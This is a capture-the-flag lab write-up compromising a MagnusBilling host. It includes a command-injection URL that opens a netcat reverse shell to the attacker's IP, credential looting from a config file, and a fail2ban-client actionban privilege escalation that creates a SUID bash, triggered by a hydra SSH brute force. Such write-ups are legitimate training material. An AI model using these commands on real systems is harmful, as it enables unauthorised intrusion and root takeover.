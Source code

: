 # Billing

### Billing
Nmap scan finds ports 22,80,.3306 and 5038 open. 

    PORT     STATE SERVICE  VERSION
    22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
    | ssh-hostkey: 
    |   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
    |   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
    |_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
    80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
    | http-title:             MagnusBilling        
    |_Requested resource was http://10.10.51.171/mbilling/
    |_http-server-header: Apache/2.4.56 (Debian)
    | http-robots.txt: 1 disallowed entry 
    |_/mbilling/
    3306/tcp open  mysql    MariaDB (unauthorized)
    5038/tcp open  asterisk Asterisk Call Manager 2.10.6
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Gobuster discovers the following directories: <br />
![image](https://github.com/user-attachments/assets/2660e71b-f82e-486d-b403-eadb74210d1c)<br />
Moving around the website and enumerating directories, I found the following file: <br />
![image](https://github.com/user-attachments/assets/6de3594e-1895-41e4-88a5-c83865d05457)<br />
It means that some software called `MagnusBilling` is running. 
Looking around, I found [this website](https://sploitus.com/exploit?id=1337DAY-ID-39148) that shows a metasploit module to perform command injection. I'm actually not even sure if it works because I don't know how to check the version of this software, but anyway I'll try. <br />
I don't like metasploit really so I'll do it manually. The exploit is basically a command injection on a vulnerable php parameter. To exploit it, I open a netcat listener on port 9001 and then run:

    10.10.26.88/mbilling/lib/icepay/icepay.php?democ=/dev/null;busybox nc 10.11.85.53 9001 -e sh;#
This opens a reverse shell! Moving around the system, I found a configuration file containing a database password: <br />
![image](https://github.com/user-attachments/assets/9514e13a-e182-4f19-b21a-73589dc75bea)<br />
I use this credentials to log into the database. Looking around the DB I found a password: <br />
![image](https://github.com/user-attachments/assets/2ca1144d-1641-482e-924d-381b54baf72d)<br />
I'm trying to crack this hash but it doesn't work. Next, my user has sudo privileges on fail2ban:<br />
![image](https://github.com/user-attachments/assets/831652bb-701c-421a-988b-8b54366f8652)<br />
Fail2ban is an IDS. It is able to detect bruteforce attempts, and can ban IP addresses using iptables rules. <br />
Having sudo privileges on fail2ban can lead to privilege escalation. Basically we can configure fail2ban to execute a specific command on the system whenever it detects bruteforce attempts on a specific service. The format of the command is this: `get <JAIL> action <ACT> actionban`, where JAIL is essentially a service from which it detects a bruteforce, such as ssh, http, etc.. and ACT is the action to perform, for example banning an IP. I'm going to exploit this with the following command: 

    sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "cp /bin/bash /tmp && chmod 4755 /tmp/bash"
An "actionban" can be specified to execute a system command whenever an event happens. So basically we're saying: everytime you detect a bruteforce attack on ssh and you perform the action "iptables-multiport"(which means to ban an IP address on multiple ports), also execute the following command, which creates a SUID copy of /bin/bash.<br />
Now I run `hydra 10.10.196.108 -l root -P /usr/share/wordlists/rockyou.txt ssh`, so that this rule will be triggered.<br />
![image](https://github.com/user-attachments/assets/cc14a930-2dee-43b2-96aa-3d051d94f67f)<br />

